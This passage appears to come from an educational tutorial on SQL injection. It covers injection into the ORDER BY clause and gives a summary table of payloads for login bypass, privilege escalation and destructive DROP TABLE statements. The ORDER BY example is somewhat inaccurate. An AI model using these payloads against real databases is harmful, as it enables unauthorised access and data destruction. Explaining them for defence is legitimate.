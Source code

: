 ### ⚠️ Why Dangerous?
Developers often assume table/column names are safe. But if they're user-controlled, you can **run destructive commands**.

# 4️⃣ 📊 SQL Injection in ORDER BY Clause

### 💡 Where It Happens:
In the `ORDER BY` part of a query — often used for sorting search results.

### 🧪 Example:
The app sorts products like this:

```sql
SELECT * FROM products ORDER BY price DESC
```

You inject into the sort parameter:

```
price); DROP TABLE products;--
```

Final query becomes:

```sql
SELECT * FROM products ORDER BY price); DROP TABLE products;-- DESC
```

### 🎯 What Happened?
- You closed the `ORDER BY price)` early.
- Then added a destructive command.
- Used `--` to hide the leftover `DESC`.

### ⚠️ Why Dangerous?
Even parts of the query that seem harmless (like sorting) can be exploited if not properly sanitized.


### 🧠 Summary Table

| Query Part        | Vulnerable Code Example                        | Attack Payload                                 | Result                  |
| ----------------- | ---------------------------------------------- | ---------------------------------------------- | ----------------------- |
| `WHERE` clause    | `SELECT * FROM users WHERE username = 'admin'` | `' OR '1'='1`                                  | Bypass login            |
| `UPDATE` values   | `UPDATE users SET email = 'old' WHERE id=1`    | `'hacker@example.com', isAdmin=1 WHERE id=1--` | Escalate privileges     |
| `INSERT` values   | `INSERT INTO users (name) VALUES ('bob')`      | `'bob'); DROP TABLE users;--`                  | Delete data             |
| Table/Column name | `SELECT * FROM [user_table]`                   | `users; DROP TABLE secrets;--`                 | Destroy DB structure    |
| `ORDER BY`        | `SELECT * FROM products ORDER BY price DESC`   | `price); DROP TABLE products;--`               | Run destructive queries |

## ✅ Tips to Prevent This:

